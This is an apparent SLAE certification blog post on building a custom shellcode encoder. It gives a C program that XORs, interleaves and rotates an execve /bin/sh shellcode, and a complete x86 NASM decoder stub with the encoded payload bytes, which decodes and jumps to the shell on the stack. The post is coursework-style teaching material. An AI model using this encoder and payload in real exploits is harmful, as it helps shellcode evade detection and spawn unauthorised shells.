 ```yaml
---
comments: true
date: 2014-04-10
layout: blog
category: blog
title: 'SLAE Assignment 4: Custom Enc. Schema'
summary: '4th assignment of the SLAE'
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:

	//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
	//Author:	Paolo Stivanin <https://github.com/polslinux>
	//SLAE ID:	526

	#include <stdint.h>
	#include <string.h>
	#include <stdio.h>
	#include <stdlib.h>

	#define ROL 0x00
	#define ROR !ROL

	void concatenate(uint8_t [], uint32_t);
	void rotate(uint32_t, uint32_t, uint32_t);
	void split_uint32(uint32_t);

	uint8_t *finalShellcode;
	uint32_t counter = 0;

	int main(void){
		uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
		uint8_t xorByte = 0x1c;
		uint8_t insertByte = 0xb2;

		size_t LEN=sizeof(execveShellcode);
		uint8_t xorWithInsertion[LEN*2];
		uint32_t i, j=0;

		restart:
		for(i=0; i<LEN; i++){
			if(execveShellcode[i] == xorByte){
				xorByte += 1;
				goto restart;
			}
		}
		for(i=0; i<LEN; i++){
			execveShellcode[i] ^= xorByte;
		}

		printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
		for(i=0; i<LEN; i++){
			if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
			else printf("0x%02x,", execveShellcode[i]);
		}
		
		for(i=0; i<LEN*2; i++){
			xorWithInsertion[i] = execveShellcode[j++];
			xorWithInsertion[++i] = insertByte++;
		}
		printf("\n\nINSERTION(XOR(Shellcode)):\n");
		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
			else printf("0x%02x,", xorWithInsertion[i]);
		}	

		printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

		finalShellcode = malloc(sizeof(xorWithInsertion));
		concatenate(xorWithInsertion, sizeof(xorWithInsertion));

		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
			else printf("0x%02x,", finalShellcode[i]);
		}
		printf("\n");

		free(finalShellcode);

		return 0;
	}
		
	void concatenate(uint8_t arr[], uint32_t size){
	   	if(size % 4 != 0){
	   		printf("Size must be a multiple of 4\n");
	   		return;
	   	}
	   
	   	uint32_t i, value = 0;
		
	   	for(i=0;i<size;i++){
	   		value = value^arr[i];
	   		if(i%4 == 3){
	   			rotate(value, 16, ROL);
	   			value = 0;
	   		}
	   		else value = value<<8;
	   	}
	}
		
	void rotate(uint32_t input, uint32_t bits, uint32_t direction){
		uint32_t output;
		
		if(direction == ROL){
			output = input << (bits % (8 * sizeof(uint32_t)));
			output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
		}
		else
		{
			output = input >> (bits % (8 * sizeof(uint32_t)));
			output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
	   	}
	   	split_uint32(output);
	}
		
	void split_uint32(uint32_t splitMe){
	   	uint32_t j;
	   	uint8_t b[4];
	   	b[0] = (splitMe >> 24);
	   	b[1] = (splitMe >> 16) & 0xff;
	   	b[2] = (splitMe & 0xffff) >> 8;
	   	b[3] = (splitMe & 0xff);
	   	for(j=0; j<4; j++){
	   		finalShellcode[counter++] = b[j];
	   	}
	}


And this is the shellcode used to decode and execute the original execve shellcode:

	;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
	;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
	;Author:	Paolo Stivanin <https://github.com/polslinux>
	;SLAE ID:	526

	global _start
	section .text
	_start:
		jmp short call_shellcode

	decoder:
		pop esi
		xor eax,eax
		xor ebx,ebx
		mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
		xor edx,edx
	ll:	mov ah, BYTE [esi]
		mov al, BYTE [esi +1]
		rol eax,16
		mov ah, BYTE [esi +2] 
		mov al, BYTE [esi +3]
		add esi,4
		mov bh, BYTE [esi]
		mov bl, BYTE [esi +1]
		rol ebx,16
		mov bh, BYTE [esi +2]
		mov bl, BYTE [esi +3]
		add esi,4

		mov dh,ah
		rol eax,16
		mov al,dh
		rol eax,16

		mov dh,bh
		rol ebx,16
		mov bl,dh

		mov ax,bx
		xor eax,0x1c1c1c1c
		push eax
		dec cl
		jnz ll
		jmp esp	

	call_shellcode:
		call decoder
		EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2

Please note that `EncodedShellcode` **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**

